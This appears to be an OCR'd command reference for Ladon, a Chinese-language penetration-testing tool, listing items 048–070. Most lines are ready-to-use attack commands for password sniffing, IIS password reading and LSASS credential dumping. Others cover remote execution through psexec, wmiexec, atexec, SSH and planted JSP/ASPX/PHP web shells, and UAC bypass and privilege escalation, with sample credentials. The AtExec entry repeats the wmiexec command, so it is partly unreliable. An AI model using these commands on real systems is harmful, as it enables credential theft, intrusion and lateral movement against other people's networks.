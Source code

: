 ```
048 Base64加密解密
Ladon 123456 EnBase64 Ladon MTIzNDU2 DeBase64
网络嗅探
049 Ftp密码嗅探
Ladon FtpSniffer 192.168.1.5
050 HTTP密码嗅探
Ladon HTTPSniffer 192.168.1.5
051 网络嗅探
Ladon Sniffer
密码读取
052 读取IIS站点密码、网站路径
Ladon IISpwd
DumpLsass内存密码
Ladon DumpLsass
信息收集
053 进程详细信息
Ladon EnumProcess Ladon Tasklist
054 获取命令行参数
Ladon cmdline Ladon cmdline cmd.exe
055 获取渗透基础信息
Ladon GetInfo Ladon GetInfo2
056 .NET & PowerShell版本
Ladon NetVer Ladon PSver Ladon NetVersion Ladon PSversion
057 运行时版本&编译环境
Ladon Ver Ladon Version
远程执行(psexec/wmiexec/atexec/sshexec)
445端口 PSEXEC远程执行命令（交互式）
net user \192.168.1.8 k8gege520 /user:k8gege Ladon psexec 192.168.1.8 psexec> whoami nt authority\system
058 135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
059 445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
060 22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami
061 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami
062 WebShell远程执行命令（非交互式）
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
提权降权
063 BypassUac 绕过UAC执行,支持Win7-Win10
Ladon BypassUac c:\1.exe Ladon BypassUac c:\1.bat
064 GetSystem 提权或降权运行程序
Ladon GetSystem cmd.exe Ladon GetSystem cmd.exe explorer
065 Runas 模拟用户执行命令
Ladon Runas user pass cmd
其它功能
066 Win2008一键启用.net 3.5
Ladon EnableDotNet
067 获取内网站点HTML源码
Ladon gethtml http://192.168.1.1
068 检测后门
Ladon CheckDoor Ladon AutoRun
069 获取本机内网IP与外网IP
Ladon GetIP
070 一键迷你WEB服务器
Ladon WebSer 80 Ladon web 80
反弹Shell
```